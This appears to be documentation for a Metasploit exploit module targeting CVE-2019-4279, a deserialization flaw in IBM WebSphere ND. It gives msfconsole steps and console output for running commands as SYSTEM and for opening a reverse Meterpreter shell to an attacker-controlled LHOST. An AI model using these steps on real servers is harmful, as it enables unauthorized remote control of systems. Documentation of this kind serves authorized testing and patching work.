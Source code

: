 ## Description
This module exploits the lack of proper authentication checks in IBM Websphere Application Server ND that allows for the execution of an arbitrary command and upload of an arbitrary file as SYSTEM. The module serializes the required Java objects expected by the IBM Websphere server.

The vulnerability was identified by @rwincey (b0yd) of [Securifera](https://www.securifera.com/) and was assigned [CVE-2019-4279](https://www-01.ibm.com/support/docview.wss?uid=ibm10883628).


## Vulnerable Application
The module affects [IBM Websphere Application Server Network Deployment](https://www.ibm.com/support/knowledgecenter/en/SSAW57/mapfiles/product_welcome_wasnd.html). The agent is installed on servers with the network deployment feature and listens on TCP port 11002,11004, or 11006. The vulnerability affects versions up to 9.0.0.11.

## Verification Steps
To use this exploit you will need access to IBM Websphere Application Server Network Deployment.

1. Install the IBM Websphere Application Server Network Deployment on a host.
2. Ensure that the service is running and listening on TCP port 11002, 11004, or 11006.
3. Launch `msfconsole`.
4. Load the module `use exploit/windows/ibm/ibm_was_dmgr_java_deserialization_rce`.
5. Set the remote host ip to execute `set RHOSTS 192.168.162.133`.
6. Set the command to execute `set CMD "calc.exe"`.
7. Run the exploit `exploit`.

The result should be that calc.exe is executed on the target machine.

## Usage Scenarios
The exploit module contains several targets as detailed below.

### Target 0: Windows Powershell Injected Shellcode
This module target provides support for command staging to enable arbitrary Metasploit payloads to be used against Windows targets (for example, a Meterpreter shell). 

	msf5 > use exploit/windows/ibm/ibm_was_dmgr_java_deserialization_rce
	msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set RHOSTS 192.168.162.133
	RHOSTS => 192.168.162.133
	msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set LHOST 192.168.162.128
	LHOST => 192.168.162.128
	msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set payload windows/meterpreter/reverse_tcp
	payload => windows/meterpreter/reverse_tcp
	msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > exploit -j
	[*] Exploit running as background job 0.
	msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > 
	[*] Started reverse TCP handler on 192.168.162.128:4444 
	[*] 192.168.162.133:11006 - Connected to IBM WAS DMGR.
	[*] 192.168.162.133:11006 - Server responded
	[*] 192.168.162.133:11006 - Sending payload: A98f3f3.exe
	[*] Sending stage (179779 bytes) to 192.168.162.133
	[*] Meterpreter session 1 opened (192.168.162.128:4444 -> 192.168.162.133:58461) at 2019-02-10 23:00:03 -0500


### Target 1: Generic Command Callback
This target isn't a formal target. It was added to allow a user to execute commands entirely through the IBM Websphere Application Network Deployment Server remote administration feature. It would be the most quiet of the targets as it does not create any additional connections or use powershell by default like Target 0.
	
	msf5 > use exploit/windows/ibm/ibm_was_dmgr_java_deserialization_rce
	msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set RHOSTS 192.168.162.133
	RHOSTS => 192.168.162.133
	msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set CMD calc.exe
	msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > exploit
	[*] 192.168.162.133:11006 - Connected to IBM WAS DMGR.
	[*] 192.168.162.133:11006 - Server responded
	[*] 192.168.162.133:11006 - Executing command: calc.exe
	[*] 192.168.162.133:11006 - Sending payload: A98f3f3.bat



